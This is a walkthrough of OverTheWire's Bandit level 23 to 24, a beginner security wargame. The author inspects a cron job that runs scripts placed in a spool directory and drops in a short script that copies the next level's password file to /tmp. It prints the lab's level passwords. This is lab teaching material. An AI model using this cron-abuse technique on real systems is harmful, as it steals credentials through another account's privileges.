 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)

### Solution:

From the previous level, we have the password:

**Password:** 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

To SSH into the server, use the following command:

**Command:**

ssh [bandit23@bandit.labs.overthewire.org](mailto:bandit1@bandit.labs.overthewire.org) -p 2220

enter the password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

bandit23@bandit:~$ ls -al /etc/cron.d/
total 44
drwxr-xr-x   2 root root  4096 Jul 17 15:59 .
drwxr-xr-x 121 root root 12288 Jul 17 15:58 ..
-rw-r--r--   1 root root   120 Jul 17 15:57 cronjob_bandit22
-rw-r--r--   1 root root   122 Jul 17 15:57 cronjob_bandit23
-rw-r--r--   1 root root   120 Jul 17 15:57 cronjob_bandit24
-rw-r--r--   1 root root   201 Apr  8 14:38 e2scrub_all
-rwx------   1 root root    52 Jul 17 15:59 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 31 00:06 .placeholder
-rw-r--r--   1 root root   396 Jan  9  2024 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

- bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
if [ "$i" != "." -a "$i" != ".." ];
then
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
timeout -s 9 60 ./$i
fi
rm -f ./$i
fi
done

bandit23@bandit:~$ mkdir /tmp/kamisama
bandit23@bandit:$ cd /tmp/kamisama
bandit23@bandit:/tmp/kamisama$ vim [shell.sh](http://shell.sh/)

In shell.sh:

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/kamisama/pass24.txt

bandit23@bandit:/tmp/kamisama$ ls -al
total 44
drwxrwxr-x   2 bandit23 bandit23  4096 Jul 18 06:50 .
drwxrwx-wt 675 root     root     32768 Jul 18 06:50 ..
-rw-rw-r--   1 bandit23 bandit23    70 Jul 18 06:50 [shell.sh](http://shell.sh/)
bandit23@bandit:/tmp/kamisama$ chmod o+x [shell.sh](http://shell.sh/)
bandit23@bandit:/tmp/kamisama$ ls -al
total 44
drwxrwxr-x   2 bandit23 bandit23  4096 Jul 18 06:50 .
drwxrwx-wt 675 root     root     32768 Jul 18 06:50 ..
-rw-rw-r-x   1 bandit23 bandit23    70 Jul 18 06:50 [shell.sh](http://shell.sh/)
bandit23@bandit:/tmp/kamisama$ chmod o+w .
bandit23@bandit:/tmp/kamisama$ ls -al
total 44
drwxrwxrwx   2 bandit23 bandit23  4096 Jul 18 06:50 .
drwxrwx-wt 677 root     root     32768 Jul 18 06:51 ..
-rw-rw-r-x   1 bandit23 bandit23    70 Jul 18 06:50 [shell.sh](http://shell.sh/)
bandit23@bandit:/tmp/kamisama$ cp [shell.sh](http://shell.sh/) /var/spool/bandit24/foo
bandit23@bandit:/tmp/kamisama$ cat pass24.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8